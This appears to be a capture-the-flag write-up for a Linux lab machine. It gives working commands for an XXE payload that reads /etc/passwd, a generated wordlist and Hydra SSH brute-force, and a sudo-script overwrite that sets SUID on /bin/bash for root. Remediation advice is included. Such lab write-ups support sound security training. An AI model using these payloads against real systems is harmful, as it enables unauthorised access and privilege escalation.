

# Yuan112 — Full Machine Writeup

 | **Category:** Web + PrivEsc | **OS:** Linux

---

## 🗺️ Attack Path Overview



---

## 📋 Machine Info

| Field | Value |
|---|---|
| **Machine Name** | Maze-Sec 112 |
| **IP Address** | `192.168.1.119` |
| **OS** | Linux |
| **Initial Foothold** | XXE → File Read |
| **Privilege Escalation** | Sudo Path Parsing Abuse |
| **User Flag** | — |
| **Root Flag** | `flag{root-538dc127225a0c97b060b1ff9570390a}` |

---

## 1. 🔍 Enumeration & Initial Access

### 1.1 Port Scanning

Standard initial scan revealed a running web server on port `80/443` with SSH on port `22`.

```bash
nmap -sC -sV -oN nmap_initial.txt 192.168.1.119
```

### 1.2 Web Application — XXE Discovery

While exploring the web application, a **user profile update** form was found that accepted **XML input**. The server was parsing it without disabling external entities — a classic **XXE** misconfiguration.

> 💡 **What is XXE?**
> *XML External Entity (XXE) injection* allows an attacker to interfere with an application's processing of XML data. It can lead to **Local File Read**, SSRF, or even RCE in certain configurations.

### 1.3 XXE Payload — Reading `/etc/passwd`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<user>
  <username>admin</username>
  
</user>
```

**Result:** The server returned the Base64-encoded contents of `/etc/passwd`. After decoding, the following suspicious entry was found:

```
tuf:x:1000:1000:KQNPHFqG**JHcYJossIe:/home/tuf:/bin/bash
```

> ⚠️ The `GECOS` field (normally used for the user's full name) contained what appeared to be a **partial password with a mask**.

---

## 2. 🔑 Password Mask Cracking

### 2.1 Analysis

The string `KQNPHFqG**JHcYJossIe` contains two asterisks `**` suggesting **two unknown characters**.

$$\text{Combinations} = 62^2 = 3844 \text{ possible passwords}$$

*(charset = `a-z` + `A-Z` + `0-9`)*

### 2.2 Wordlist Generation Script

```python
import itertools
import string

base_pwd = "KQNPHFqG**JHcYJossIe"
charset = string.ascii_letters + string.digits

print(f"[*] Generating {len(charset)**2} passwords...")

with open("pass.txt", "w") as f:
    for combo in itertools.product(charset, repeat=2):
        candidate = base_pwd.replace("**", "".join(combo))
        f.write(candidate + "\n")

print("[+] Wordlist saved to pass.txt")
```

```bash
python3 gen_wordlist.py
# [*] Generating 3844 passwords...
# [+] Wordlist saved to pass.txt
```

### 2.3 Brute-Force with Hydra

```bash
hydra -l tuf -P pass.txt ssh://192.168.1.119 -t 4 -V
```

**Result:**

```
[22][ssh] host: 192.168.1.119   login: tuf   password: KQNPHFqG6mJHcYJossIe
```

### 2.4 SSH Login

```bash
ssh tuf@192.168.1.119
# Password: KQNPHFqG6mJHcYJossIe

tuf@maze-sec:~$ id
uid=1000(tuf) gid=1000(tuf) groups=1000(tuf)
```

---

## 3. ⚙️ Privilege Escalation — Path Parsing Abuse

### 3.1 Sudo Enumeration

```bash
sudo -l
```

```
User tuf may run the following commands on maze-sec:
    (ALL) NOPASSWD: /opt/112.sh
```

### 3.2 Analyzing `/opt/112.sh`

The script:
- Accepts a `-u <URL>` argument
- Validates the URL with a **regex**
- Saves output to a file specified by `-o <path>`
- Runs with `root` privileges via `sudo`

> 🐛 **The Vulnerability:**
> The script validates the *URL format* but **does not validate the `-o` output path**. This means we can **overwrite any file** on the system — including `/opt/112.sh` itself.

### 3.3 Exploitation Steps

**Step 1** — Create a directory structure that mimics the allowed URL regex:

```bash
cd /tmp
mkdir -p "https:/maze-sec.com"
```

**Step 2** — Place our malicious payload inside it:

```bash
echo -e '#!/bin/bash\nchmod +s /bin/bash' > "https:/maze-sec.com/pwn"
chmod +x "https:/maze-sec.com/pwn"
```

**Step 3** — Overwrite `/opt/112.sh` by pointing the output path to it:

```bash
sudo /opt/112.sh -u https://maze-sec.com/pwn -o /opt/112.sh
```

Now `/opt/112.sh` has been **replaced** with our payload path reference.

**Step 4** — Re-run the script as `sudo` to trigger the SUID bit:

```bash
cd /tmp
sudo /opt/112.sh
```

The script now executes our `pwn` file from the current working directory, running `chmod +s /bin/bash` as `root`.

**Step 5** — Verify & Pop Root:

```bash
ls -la /bin/bash
# -rwsr-sr-x 1 root root ... /bin/bash

/bin/bash -p
```

```
bash-5.1# id
uid=1000(tuf) gid=1000(tuf) euid=0(root) egid=0(root) groups=0(root)
```

### 3.4 Root Flag

```bash
bash-5.1# cat /root/root.txt
flag{root-538dc127225a0c97b060b1ff9570390a}
```

---

## 4. 🛡️ Remediation Recommendations

| Vulnerability | Fix |
|---|---|
| **XXE Injection** | Disable external entity processing in the XML parser |
| **Sensitive data in GECOS field** | Never store credentials or hints in `/etc/passwd` |
| **Unsafe sudo script** | Validate *all* input (including `-o` path) against an allowlist |
| **Path Parsing Abuse** | Use `realpath` or `readlink -f` before trusting any file path |

---

## 5. 🧠 Key Takeaways

- **XXE is still alive** — Always test XML endpoints for external entity injection
- **Think outside the box** — Credentials can hide in unexpected places (GECOS field!)
- **Regex ≠ Security** — A valid-looking URL can still point to a local path
- **Sudo scripts are gold** — A misconfigured root-owned script is often the fastest path to escalation

---

> *"The obstacle is the way."* — The path that seemed like a dead end (masked password in passwd, a URL checker with sudo) was exactly **the** path.

---
